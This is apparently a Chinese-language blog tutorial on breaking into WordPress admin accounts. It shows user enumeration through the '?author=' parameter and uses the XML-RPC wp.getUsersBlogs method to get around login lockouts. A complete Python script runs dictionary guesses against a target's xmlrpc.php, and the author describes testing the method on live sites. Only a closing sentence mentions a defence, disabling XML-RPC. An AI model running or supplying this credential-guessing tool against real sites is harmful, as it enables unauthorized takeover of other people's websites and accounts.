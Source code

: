 首先要说一下，一个正常点的网站，你用暴力破解登录的话，都是几乎无法实现的，举个例子。
### 举个暴力破解QQ的例子：
	
> - 1.你暴力破解QQ密码，输入错误几次之后验证码也出来了。
> - 2.验证码的问题比较好搞，找个识图的代码，识别图片中的二维码，即可。继续破解。
> - 3.是的 二维码可以搞定，但是你输入错误次数超过30次之后，该账号24小时内再提交密码都无效了。

### 举个我自己亲测暴力破解wordpress站点管理员密码的例子：
我穷举wordpress 的账户密码，post到xxx.com/wp-admin.php上，结果：没几下我就发现网站打不开了。然后，用同事们的机器，也是打不开，我以为网站挂了，结果不是，我发现用3G网可以打开。看样wordpress直接屏蔽了我们的ip段，一个小时后又可以访问了。 所以我放弃了，对wp-admin.php的破解。

只能另辟蹊径。

----------
## 1.wordpress自带的 **author漏洞**。

wooyun曾经爆出的WordPress的一个bug，就是再主网址尾部追加/?author=index之后可以爆出user表中的id==index的账户名。
#  
比如： **http://xxx.com/?author?=1** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>


    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>admin | 此处隐藏网站名</title>
	<!--  重点在这里 -->
``` 

比如： **http://xxx.com/?author?=2** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="generator" content="WordPress 3.8.3" />
<meta name="robots" content="noodp,noydir" />

    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">


    <title>Nothing found for  ?author=2</title>
    <!--  重点在这里 -->
```
# 
ok，此处可以看出该站只有一个管理员 用户名是**admin**。
那么好了，我们暴力破解本来还需要猜用户名的，现在用户名不用猜了，只要猜密码，我们就省了很多事。

# 
## 2.wordpress自带的 **XMLRPC漏洞**。

wordpress官网对这个功能进行了解释：  [点击跳转到wordpress官网](http://codex.wordpress.org/XML-RPC_wp#wp.getUsersBlogs)
	
如下是我摘抄的一段：
# 
wp.getUsersBlogs

	检索用户的博客。
参数
	
	用户名的字符串
	字符串密码
返回值
	> - 数组
		 > - +    结构
	 - 布尔型 isAdmin
	 - 字符串 url
	 - 文章的 blogid 的字符串
	 - 字符串 blogName
	 - 字符串 xmlrpc

wp.getTags

	得到所有标记的列表。

...
...
...
# 
我就不在往下写了，下面的也是调用这个接口传递用户名，密码，传递其他参数用于获得一些数据的一些表，比如文章列表之类的。

从wordpress官网看其他的一些功能，可以看出这个xmlrpc应该是开放给客户端使用的。



# 
那么我们在wordpress主站地址后追加：**/xmlrpc.php**即可得到如下截图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a000669)

**XML-RPC server accepts POST requests only**.
是告诉我们需要用post方式提交。

从这个文件名xmlrpc的命名来看，这里应该是提交xml格式的才对。
我们来试下模拟post提交，来验证我们的猜想：
# 
上图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a00066b)

这里报了一个错误，说转换出错，很显然post提交不了。跟wordpress官网说的一样，这个接口需要提交xml格式的。

格式 的例子如下：
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
   <param><value>username</value></param>
   <param><value>password</value></param>
  </params>
</methodCall>
```
我试着在chrome里提交一下：
![](https://leanote.com/api/file/getImage?fileId=563cdfc138f41125df00074f)
这个接口已经走通了，为了测试这个接口如果出错不会被服务器拉黑ip，我刷新了20次，确定这个接口可用。终于放心了唉。

下面就是写个python程序，进行循环post xml进行验证了。


``` python

#  佛祖保留代码无bug 
'''
漏洞详情请查看：http://www.freebuf.com/articles/web/38861.html
'''
import urllib2
import re

def ReadMe():
    print """说明：
    1.在本文件同目录下新建usernames.txt、passwords.txt分别存入用户名、密码字典
    2.按提示输入WordPress站点(例如:www.freebuf.com)
    """

def GetUrl():
    urlinput=raw_input("请输入wordpress站点:")
    requrl="http://"+re.match(r"(http://)?(.*)",urlinput).expand('\g<2>')+"/xmlrpc.php"
    print "尝试利用:"+requrl
    return requrl
   
def Aviable(requrl):
    
    try:
        result = urllib2.urlopen(url=requrl).read()
    except urllib2.URLError:
        print "抱歉，此站点漏洞不可用"
        return False
    else :
        if result == "XML-RPC server accepts POST requests only.":
            print "\n该站点存在此漏洞,尝试破解中:"
            return True
        else :
            print "抱歉，此站点漏洞不可用"
            print "网页返回：\n    "+result
            return False
    
def Exploit():
    requrl=GetUrl()
    if Aviable(requrl) :
    #usernames.txt 文件中其实只有一个用户名，因为我们通过author漏洞获取到了管理的用户名。
        f_username=open("usernames.txt","r")
        f_password=open("passwords.txt","r")
        num=0
        Flag=0
        for name in f_username:
            if Flag == 1:
                break
            for key in f_password:
                if num % 10 == 0:
                    print "已尝试"+str(num)+"个"
                if len(key)<8:
                    continue #wordpress管理员密码长度最短是8  所以这里小于8的跳过
                reqdata='<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs\
                        </methodName><params><param><value>'+ name + \
                        '</value></param><param><value>'+ key  +\
                        '</value></param></params></methodCall>'
                req = urllib2.Request(url=requrl,data=reqdata)
                result = urllib2.urlopen(req).read()
                num=num+1
                if "isAdmin" in result :
                    print "Got it !"
                    print "username :"+name+"password :"+key
                    Flag = 1
                    break
                    
                elif "faultString" and "403" in result :
                    continue 
                    
                else :
                    print "Unknown error"
        print "抱歉，在此字典中并未找到正确的密码"
        
if __name__ == '__main__' :
    ReadMe()
    Exploit()

```

# 
执行效果如下：

![](https://leanote.com/api/file/getImage?fileId=563cd4d638f411249a000681)



# 
wordpress不知道现在已经到了什么版本了，但是目前，这个漏洞还是存在的，避免这个漏洞方式很简单，关闭这个功能即可。
# 
PS：
	 补充点：只要xmlrpc这个漏洞在，暴力破解就是一定能成功，只是时间问题。





